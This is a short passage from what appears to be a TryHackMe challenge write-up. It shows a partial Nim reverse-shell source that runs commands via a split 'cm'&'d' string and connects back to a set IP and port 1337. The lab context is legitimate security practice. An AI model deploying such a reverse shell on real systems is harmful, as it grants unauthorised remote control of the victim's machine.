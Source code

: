 ![Pasted image 20250728170218.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250728170218.png)

We copy the code and make the file :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Medium/HackSmarterSEC]
└─$ cat revshell.nim 
#[ 
   Created by Sn1r
   https://github.com/Sn1r/
 ]#

import net, os, osproc, strutils

proc exe(c: string): string =
  result = execProcess("cm" & "d /c " & c)

var
  v = newSocket()

  # Change this
  v1 = "10.8.162.183"
  v2 = "1337"

  s4 = "Exiting.."
  s5 = "cd"
  s6 = "C:\\"
  ...
  ...
```
